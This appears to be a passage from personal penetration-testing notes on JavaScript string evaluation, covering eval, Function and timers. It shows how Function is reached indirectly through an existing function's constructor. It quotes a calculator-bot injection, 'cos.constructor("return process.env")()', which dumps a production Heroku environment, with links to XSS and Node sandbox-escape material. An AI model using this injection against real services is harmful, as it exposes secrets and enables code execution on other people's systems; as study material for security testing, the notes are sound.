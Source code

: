 
## String evaluation and bypasses using indirect access

Reference: https://jwlss.pw/mathjs/

There are four standard ways to evaluate strings in JavaScript:

- `eval("code")`
- `new Function("code")`
- `setTimeout("code", timeout)`
- `setInterval("code", interval)`

However, they can be accessed indirectly: **`Function` can be accessed indirectly as the constructor of an existing function**

```js
Function("return 1")
// can be replaced with
Math.floor.constructor("return 1")
Math.floor.constructor("return 1")() // to evaluate `return 1`,

> !calc cos.constructor("return process.env")()
Result: {
  "WEB_MEMORY": "512",
  "MEMORY_AVAILABLE": "512",
  "NEW_RELIC_LOG": "stdout",
  "NEW_RELIC_LICENSE_KEY": "<redacted>",
  "DYNO": "web.1",
  "PAPERTRAIL_API_TOKEN": "<redacted>",
  "PATH": "/app/.heroku/node/bin:/app/.heroku/yarn/bin:bin:node_modules/.bin:/usr/local/bin:/usr/bin:/bin:/app/bin:/app/node_modules/.bin",
  "WEB_CONCURRENCY": "1",
  "PWD": "/app",
  "NODE_ENV": "production",
  "PS1": "\[\033[01;34m\]\w\[\033[00m\] \[\033[01;32m\]$ \[\033[00m\]",
  "SHLVL": "1",
  "HOME": "/app",
  "PORT": "<redacted>",
  "NODE_HOME": "/app/.heroku/node",
  "_": "/app/.heroku/node/bin/node"
}
```

# XSS

![XSS cheat sheets & filtering bypass](../Web%20&%20Network%20Hacking/Cross-Site%20Scripting%20(XSS).md#XSS%20cheat%20sheets%20&%20filtering%20bypass)

[^blog]: [Remote Debugging Node.js with VS Code](https://maikthulhu.github.io/2019-05-17-remote-debugging-node-vscode/), maik's blog
[^JSON2HTTP]: [fpilee - Is there any native function to convert json to url parameters](../../Readwise/Articles/fpilee%20-%20Is%20there%20any%20native%20function%20to%20convert%20json%20to%20url%20parameters.md#^8adf85)
[^escape-nodejs]: [Escape NodeJS Sandboxes - Recon](https://www.netspi.com/blog/technical/web-application-penetration-testing/escape-nodejs-sandboxes/)